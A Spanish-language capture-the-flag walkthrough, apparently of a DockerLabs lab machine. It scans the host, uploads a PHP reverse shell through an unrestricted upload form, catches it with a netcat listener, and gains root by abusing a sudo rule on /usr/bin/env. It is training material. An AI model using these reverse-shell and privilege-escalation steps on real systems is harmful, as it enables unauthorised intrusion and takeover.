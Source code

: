## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache` El título de la página (`Upload here your file`) es una pista clara sobre la funcionalidad principal del sitio.

![SubirArchivo](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/Upload_SubirArchivo.png)

### 1.2. Análisis de la Página Web con WhatWeb

Utilizamos `whatweb` para obtener más información sobre la tecnología utilizada en la página web. Esta herramienta escaneará la URL y reportará tecnologías, versiones y otros detalles.

```bash
whatweb <IP_DEL_OBJETIVO>
```

**Resultado:**
*   `Apache/2.4.52` en `Ubuntu Linux`.

### 1.3. Fuzzing Web con Gobuster

Realizamos un fuzzing de directorios con `gobuster` para descubrir rutas ocultas o archivos interesantes en el servidor web. Esto nos ayuda a mapear la estructura del sitio y encontrar posibles puntos de entrada.

```bash
gobuster dir -w /path/to/wordlist/directory-list-lowercase-2.3-medium.txt -u http://<IP_DEL_OBJETIVO>
```

**Resultados Relevantes:**

*   `/uploads`: Este directorio es crucial, ya que su nombre sugiere que es donde se almacenan los archivos subidos.
## 2. Explotación de la Vulnerabilidad de Carga de Archivos

La presencia de una funcionalidad de carga de archivos y un directorio `/uploads` accesible es una señal de una posible vulnerabilidad de carga de archivos sin restricciones, que puede llevar a la ejecución remota de código (RCE).

### 2.1. Creación de una Reverse Shell en PHP

Para obtener una shell inversa, crearemos un archivo PHP que, al ser ejecutado en el servidor, se conectará a nuestra máquina atacante. Utilizaremos un script de reverse shell PHP estándar, como el de `pentestmonkey`.

Descargar el script y modificar la dirección IP (`$ip`) a la IP de tu máquina atacante (Kali Linux) y el puerto (`$port`) al puerto que usarás para escuchar la conexión (por ejemplo, 443).

### 2.2. Carga del Archivo Malicioso

Utilizamos la interfaz de carga de archivos en `http://<IP_DEL_OBJETIVO>/` para subir nuestro `reverseShell.php` modificado. Si la carga es exitosa, el servidor responderá con un mensaje de confirmación como `The file reverseShell.php has been uploaded.`

### 2.3. Obtención de la Reverse Shell

1.  **Configurar el Listener:** En tu máquina atacante (Kali Linux), abre una terminal y configura un `netcat` listener en el puerto que especificaste en el script PHP (por ejemplo, 443).

    ```bash
    nc -lvnp 443
    ```

2.  **Ejecutar el Archivo Cargado:** Navega en tu navegador a la URL donde se cargó el archivo PHP: `http://<IP_DEL_OBJETIVO>/uploads/reverseShell.php`. Al acceder a esta URL, el servidor ejecutará el script PHP, lo que activará la conexión inversa a tu listener de `netcat`.

Deberías ver una conexión entrante en tu terminal de `netcat`.

```bash
whoami
www-data
```

Confirmamos que hemos obtenido una shell como el usuario `www-data`, que es el usuario bajo el que se ejecuta el servidor web Apache.

### 2.4. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:

1.  **Ejecutar `script`:**
    ```bash
    script /dev/null -c bash
    ```
2.  **Suspender el proceso:**
    ```bash
    Ctrl + Z
    ```
3.  **Configurar la terminal:**
    ```bash
    stty raw -echo; fg
    ```
4.  **Restablecer la terminal:**
    ```bash
    reset
    ```
5.  **Especificar tipo de terminal (si se pregunta):**
    ```bash
    xterm
    ```
6.  **Exportar variables de entorno:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

## 3. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 3.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/env`

Esto significa que el usuario `www-data` puede ejecutar el binario `/usr/bin/env` como `root` sin necesidad de introducir su contraseña. El comando `env` se utiliza para ejecutar un programa en un entorno modificado, y puede ser abusado para escalar privilegios si está mal configurado en `sudo`.

### 3.2. Abuso de `env` para Obtener Root

Según GTFOBins, cuando `env` tiene permisos `NOPASSWD` en `sudo`, se puede abusar de él para ejecutar una shell con privilegios de `root`.

```bash
sudo -u root /usr/bin/env /bin/sh
```

Al ejecutar este comando, obtendremos una shell con privilegios de `root`.

```bash
whoami
# root
```

Confirmamos que hemos escalado exitosamente a `root`.
